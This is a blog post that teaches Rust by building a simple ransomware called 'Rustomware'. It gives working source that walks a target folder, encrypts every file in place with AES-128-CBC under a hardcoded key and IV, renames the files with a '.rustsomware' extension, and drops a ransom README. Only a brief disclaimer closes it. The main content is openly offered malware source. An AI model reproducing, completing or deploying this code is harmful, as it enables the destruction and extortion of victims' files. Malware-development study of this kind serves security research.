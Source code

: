 ```yaml
---
layout: post
title: Rust 101 - Let's write a Rustomware
subtitle: Writing a ransomware in rust
gh-repo: idov31/rustomware
gh-badge: [star, fork, follow]
tags: [rust, windows, linux, malware-dev]
---
```


## Introduction

When I first heard about Rust, my first reaction was "Why?". The language looked to me as a "wannabe" to C and I didn't understand why it is so popular. I started to read more and more about this language and began to like it. To challenge myself, I decided to write [FunctionStomping](https://github.com/idov31/FunctionStomping) in rust. Later on, I made few contributions to the amazing repository [OffensiveRust](https://github.com/trickster0/OffensiveRust) and writting nowadays a unique C2 framework written (mostly) in rust. If you are familiar with Rust, you can skip to Part 2 below. The whole code for this blog post is avaliable in my [Github](https://github.com/idov31/rustomware) :).

## Rust's capabilities

The reason that I think that Rust is awesome language is because its powerful compiler, memory safety, easy syntax and great interfacting with the OS. Rust's compiler takes care to alert for anything that can be problematic - A thing that can be annoying but in the end it helps the developer to create safer programs. In the other hand, the compiler also takes care of annoying tasks that are required when programming in C like freeing memory, closing files, etc. Rust is also a cross-platform language, so it can be used on any platform and be executed differently depending on the OS.

## Part 1 - Hello Rust

Enough talking and let's start to code! The first thing we want to do is create our program, it can be done with this simple command:

```sh
cargo new rustomware
cd rustomware
```

In the rustsomware directory, we will have these files:

``` sh
rustomware
│   .gitignore
│   Cargo.toml    
│
└───src
│   │   main.rs
│   
└───.git
    │   ...
```

In the main.rs file, we will write our code, and in Cargo.toml we will include our modules.
To build our new program, we will use the following command:

``` sh
cargo build
```

Our executable will be in the target directory (because we didn't use the release flag so it will be in debug) and will be called rustomware.exe. You'll notice that there are few new files and directories - the Cargo.lock file, and many files under the target directory. I won't elaborate about them here, in general the Cargo.lock file contains the dependecies of the project in a format that can be used by Cargo to build the project. **THERE IS NO NEED TO EDIT THOSE FILES**. In the target directory we will have the modules themselves, the executable and the PDB file. After we learned a bit about Rust, we can dive in to code our ransomware.

## Part 2 - Iterating the target folder

Like any good ransomware, we will need to have these functionalities:

- Encrypting files.
- Decrypting files.
- Dropping a README file.
- Adding our own extension to the files.

For that, we will need to use crates (modules) to help us out. First things first, we need to be able to get a list of all the files in the target directory from the argv. To do that, we can use the std library and the fs module. To use a module all we need to do is to import it:

``` rust
use std::{
    env,
    fs
};

fn main() {
    let args: Vec<_> = env::args().collect();
    
    if args.len() < 2 {
        println!("Not enough arguments! Usage: rustsomware <encrypt|decrypt> <folder>");
        return;
    }

    let entries = fs::read_dir(args[2].clone()).unwrap();

    for raw_entry in entries {
        let entry = raw_entry.unwrap();

        if entry.file_type().unwrap().is_file() {
            println!("File Name: {}", entry.path().display())
        }
    }
}
```

Now we have a program that finds files in a folder. Notice that we used the unwrap() method to get the result, it is required because Rust functions mostly send as a result a result type that can be either Ok or Err. We also needed to clone the string because it Rust need to clone objects or create a safe borrow (It is not recommended to borrow objects, but it is possible and can be useful in some cases).

## Part 3 - Encrypting / Decrypting the files

To encrypt the files, we will the [AES](https://en.wikipedia.com/wiki/Advanced_Encryption_Standard) cipher with hardcoded key and IV. All that is left for us to do is to create a function that is responsible to encrypt the file and change its extension to .rustsomware. First things first, to be able to do encryption / decryption methods we will need to have a crate to help with that. Since the libaes crate isn't a default crate, we need to import it to our project and this can be done by modifying the Cargo.toml file by adding:

```toml
[Dependencies]

libaes = "0.6.2"
```

Now, we can create a function that can encrypt and decrypt. For the sake of practice, we will use hardcoded key and IV but this is **NOT** recommended at all.

``` rust
fn encrypt_decrypt(file_name: &str, action: &str) -> bool {
    let key = b"fTjWmZq4t7w!z%C*";
    let iv = b"+MbQeThWmZq4t6w9";
    let cipher = Cipher::new_128(key);

    match action {
        "encrypt" => {
            println!("[*] Encrypting {}", file_name);
            let encrypted = cipher.cbc_encrypt(iv, &fs::read(file_name).unwrap());
            fs::write(file_name, encrypted).unwrap();
            let new_filename = format!("{}.rustsomware", file_name);
            fs::rename(file_name, new_filename).unwrap();
        }

        "decrypt" => {
            println!("[*] Decrypting {}", file_name);
            let decrypted = cipher.cbc_decrypt(iv, &fs::read(file_name).unwrap());
            fs::write(file_name, decrypted).unwrap();
            let new_filename = file_name.replace(".rustsomware", "");
            fs::rename(file_name, new_filename).unwrap();
        }

        _ => { 
            println!("[-] Invalid action!");
            return false 
        }
    }

    return true;
}
```

You can use the key and IV from above or [generate yourself](https://www.allkeysgenerator.com/Random/Security-Encryption-Key-Generator.aspx). The code above is a simple example of how to use aes128 with Rust, pretty simple right?

As you saw, Rust have a simple interface with the file system that allows to rename and do io operations easily. Because this is a simple example the function returns boolean type but it is recommended to return the error to the calling function for further handling.

## Part 4 - Adding pretty prints and README file

Just like any good ransomware we need to do a simple thing and add a README file. For the sake of learning, we will learn about including files statically to our binary. Create a readme.txt file with your ransom message in it (it is recommended to create it in a seperate directory inside your project directory but you can also put it in the src directory). To add the file, all we need to do is to use the include_str! macro (everything that ends with ! in rust is a macro) and save it to variable.

```rust
...

// Dropping the README.txt file.
let ransom_message = include_str!("../res/README.txt");
let readme_path = format!("{}/README_Rustsomware.txt", args[2].clone());
fs::write(readme_path, ransom_message).unwrap();
```

As you saw, we can just save it to file and if we want to do any change just change the README file and recompile, no code editting required.

Result:
<img src="../assets/img/rust101-rustsomware/encrypted_files.png" />

## Conclusion

In this blog post, you got a taste from Rust's power and had fun with it by creating a simple program. I think that in the future we will see more and more infosec tools that are written in Rust. The whole code is avaliable in my [Github](https://github.com/idov31), for any question feel free to ask me on [Twitter](https://twitter.com/idov31).

## Discalimer

I'm not responsible for any damage that may occur to your computer. This article is just for eductional purposes and not inteded to be used in any other way.
